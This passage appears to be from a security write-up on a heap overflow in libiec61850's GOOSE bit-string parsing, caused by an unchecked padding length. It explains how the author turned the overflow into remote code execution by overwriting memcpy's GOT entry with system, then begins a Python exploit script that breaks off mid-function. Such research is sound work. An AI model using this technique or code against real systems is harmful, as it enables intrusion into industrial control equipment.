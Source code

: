 ```c
    break;
```

Comparing the two we can see that the code in the `parseAllData` function does not check the padding length supplied. We can use this to achieve a heap overflow.

Consider the following example: We create a new bit-string with an `elementLength` of 25 bytes and 0 padding. Based on the `parseAllDataUnknownValue` function this will create a bit-string with a `rawBitLength` of (25-1)*8 = 192 bits. Afterwards we send the same type of message again but now we supply an `elementLength` of 56 and padding of 248. Based on the `parseAllData` function the `bitStringLength` will correspond to (8 * (56 - 1)) - 248 = 192 bits, so the same `bitStringLength` as our initial bit-string ! However, the `elementLength` used for the `memcpy` is actually 55 bytes instead of 24 bytes, causing a heap overflow.

### Gaining RCE
To gain code execution, I used the heap overflow to corrupt a metadata structure (`MmsValue`) of another bit-string. The important parts of the `MmsValue` structure are shown below:
```c
 MmsType type;
    uint8_t deleteValue;
    union uMmsValue {
       ...
        struct {
            int size;     /* Number of bits */
            uint8_t *buf;
        } bitString;
        ...
    } value;
```

I corrupted the `buf` pointer of a bit-string to point to the `GOT` of the `memcpy` function. Afterwards I overwrote the `memcpy` entry with the address of the `PLT` stub of the `system` function and by that gained code execution on the next call to memcpy.

The heap overflow bug has now been [fixed](https://github.com/mz-automation/libiec61850/commit/f41667367a0c9841400bd3e50415db8a5301b7ad).

### Exploit
```python
def build_pkt(payload):
    buf = b'\x01\x0c\xcd\x01\x00\x01' #dstmac
    buf += p8(0x41)*6 #srcmac
    buf += p8(0x88)
    buf += p8(0xb8)
    buf += p16(1000, endian='big')
    buf += p16(len(payload)+0x8, endian='big') #len
    buf += p8(0)*4 # reserved field
    buf += payload

    return buf

gocbref = b"simpleIOGenericIO/LLN0$GO$gcbAnalogValues"

def el(l):
    buf = p8(0x4 | 0x80)
    buf += p32(l, endian='big')
    return buf

def build_all_data(padding, payload, payload2=None):
    buf = p8(0x84) # bit string
    buf += el(len(payload)+1)
    buf += p8(padding)
    buf += payload

    buf += p8(0x84) # bit string
```